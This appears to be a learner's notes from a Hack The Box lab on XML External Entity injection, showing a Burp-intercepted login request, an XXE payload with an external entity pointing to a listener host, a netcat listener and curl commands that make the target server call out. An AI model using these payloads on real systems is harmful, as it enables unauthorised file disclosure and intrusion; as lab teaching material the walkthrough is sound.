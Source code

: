 ﻿XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down. Our [Web Attacks](https://academy.hackthebox.com/module/details/134) module covers XXE Injection vulnerabilities in detail. It should be noted that XXE vulnerabilities affect web applications and APIs alike.

Let us assess together an API that is vulnerable to XXE Injection.

Proceed to the end of this section and click on`Click here to spawn the target system!` or the`Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing such an application residing in`http://<TARGET IP>:3001`.

By the time we browse`http://<TARGET IP>:3001`, we come across an authentication page.

Run Burp Suite as follows.

```shell-session
smoothment@htb[/htb]$ burpsuite
```

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it.

Now let us try authenticating. We should see the below inside Burp Suite's proxy.

![image](https://academy.hackthebox.com/storage/modules/160/11.png)


```http
POST /api/login/ HTTP/1.1
Host: <TARGET IP>:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://<TARGET IP>:3001
DNT: 1
Connection: close
Referer: http://<TARGET IP>:3001/
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?><root><email>test@test.com</email><password>P@ssw0rd123</password></root>
```

- We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.

Let us try crafting an exploit to read internal files such as _/etc/passwd_ on the server.

First, we will need to append a DOCTYPE to this request.

What is a DOCTYPE?

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special characters or strings used in the document. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource (external DTD).

Our current payload is:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```

We defined a DTD called _pwn_, and inside of that, we have an`ENTITY`. We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the ENTITY keyword, followed by the`ENTITY` name and its value.

We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as`file://` to call internal files.

Let us set up a Netcat listener as follows.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Now let us make an API call containing the payload we crafted above.


```shell-session
smoothment@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>
```

We notice no connection being made to our listener. This is because we have defined our external entity, but we haven't tried to use it. We can do that as follows.


```shell-session
smoothment@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'

```

After the call to the API, you will notice a connection being made to the listener.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

The API is vulnerable to XXE Injection.

# Question
---
![Pasted image 20250219172306.png](../../../../IMAGES/Pasted%20image%2020250219172306.png)


